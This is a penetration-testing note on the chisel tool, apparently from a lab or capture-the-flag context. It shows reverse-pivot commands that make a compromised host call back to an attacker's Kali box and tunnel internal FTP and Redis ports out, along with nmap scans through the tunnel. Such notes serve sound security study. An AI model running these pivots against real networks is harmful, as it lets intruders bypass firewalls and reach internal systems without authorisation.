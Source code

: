 # 💢 chisel
Tags: #💢
Related to: 
See also: 
Previous: [[Post Exploitation]], [[Tunneling & Exfiltration]]

---
## Description

A fast TCP/UDP tunnel, transported over HTTP, and secured via SSH.

"If you're familiar with SSH tunnels, chisel is everything reversed. SSH local, if you use chisel, you'll probably do everything reversed. With SSH you're the client, going through the firewall and talking to the SSH server. Use chisel in situations where you can't talk over SSH and you have to say, 'hey client, you have to talk to me and open up the tunnel.' With chisel, we are the server and we're talking to the client and routing through it, so we're doing a reverse pivot first. Reverse means the remote box is listening, and the remote box in this case is our box because we're running the command on their client." -IppSec

Here's a helpful guide: [^1]

## Usage Examples

### Download chisel binary from github repository.

We want to download chisel from the repository so it has a higher chance of running against the GLIBC version on our target.[^2]

 ### Reverse pivot

	chisel server -p 8000 -reverse -v					// 1. Server listens on 8000.	// NOTE THE FINGERPRINT
	./chisel client <kali_box>:8000 ...					// 2. Client connects to server.
	./chisel client <kali_box>:8000 R:8001:<target>:21	// 3. Client: "Hey, I've opened a hole for you (port 8001)"
	./chisel client 10.10.16.12:8000 R:8001:172.19.0.3:21
	
	./chisel client --fingerprint <server_fingerprint> 10.10.16.12:8000 R:127.0.0.1:8001:172.19.0.3:21
	
```
^ this is the secure way to run chisel. Using the server's fingerprint in the client ensures that only you are connecting to the server. Also, specifying 127.0.0.1 limits the tunnel to only people on the local host, not the entire network.
```

On our Kali box:

	ftp localhost 8001	// This accesses 172.19.0.3

```
220 ProFTPD Server (ProFTPD)
Name (localhost:kali):
```

	curl 127.0.0.1:8001

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
		...
```

Restart our chisel client to open port 6379:

	./chisel client --fingerprint sw4f8cHIX6F/7wUx6dJ8V36X4MgxLcl4tOwymk+6NgI= 10.10.16.12:8000 R:127.0.0.1:6379:172.19.0.3:6379

	nmap -sT -sC -sV -p 6379 localhost

```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9

---
## References

<iframe width="560" height="315" src="https://www.youtube.com/embed/Yp4oxoQIBAM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

[^1]: https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
[^2]: https://github.com/jpillora/chisel/releases/
